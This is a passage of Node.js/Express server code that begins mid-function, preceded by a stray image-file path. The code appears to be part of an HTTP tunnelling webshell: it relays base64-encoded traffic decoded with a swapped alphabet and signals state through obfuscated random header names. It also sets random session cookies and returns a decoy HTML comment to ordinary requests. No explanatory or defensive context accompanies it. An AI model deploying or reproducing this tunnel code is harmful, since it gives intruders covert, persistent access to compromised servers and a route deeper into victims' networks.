 ```javascript
          res.send(body);
          return res.end();
        } else {
          res.set({'Eegmsjowdhwriinoj': 'z3Fx6vOKX8m3Dm5yUUNQASxM862WJxEv8xVRY8h2jObzFHI'});
          return res.end();
        }
      }
      
      case 'G9s6SEScPwNi1i_MjDmD_a6LfQ1chmmkliBIQvmpAwGz2VdDfC1zWk': {

        running = session[run];
        if (!running) {
          res.set({
            'Eegmsjowdhwriinoj': 'z3Fx6vOKX8m3Dm5yUUNQASxM862WJxEv8xVRY8h2jObzFHI',
            'Zhdmrecmdz': 'smkxMnqXU5EvPLsZf1f8UaJNmnJr3YCbM'
          });
          return res.end();
        } else {
          res.set('Content-Type', 'application/octet-stream');

          let chunk1 = '';
          req.on('data', function (chunk) {
            chunk1 = chunk;
          });

          req.on('end', function () {

            let body = chunk1.toString();
            if (body) {
              var _tmp = new Buffer.from(StrTr(body, de, en), 'base64');
              session[writebuf].unshift(new Buffer.from(StrTr(body, de, en), 'base64'));
              
              
              
              res.set({'Eegmsjowdhwriinoj': 'MYBTsrWPJojQDO2hE', 'Connection': 'Keep-Alive'});
              return res.end();
            } else {
              res.set({
                'Eegmsjowdhwriinoj': 'z3Fx6vOKX8m3Dm5yUUNQASxM862WJxEv8xVRY8h2jObzFHI',
                'Zhdmrecmdz': 'xMU7R9dZ3SG8by8hMwlc7z5M'
              });
              return res.end();
            }
          })
        }
        break;
      }
      default: {
        var sessionid = 'Ur' + Math.random();
        res.set({'Set-Cookie': 'SESSIONID=' + sessionid + ';'});
        sessions[sessionid] = {};
        return res.end("<!-- nFPltXUCizWaY6SWPp -->");
      }
    }
  }catch(e){
   console.log(e);
    
    return res.end();
  }

});
```
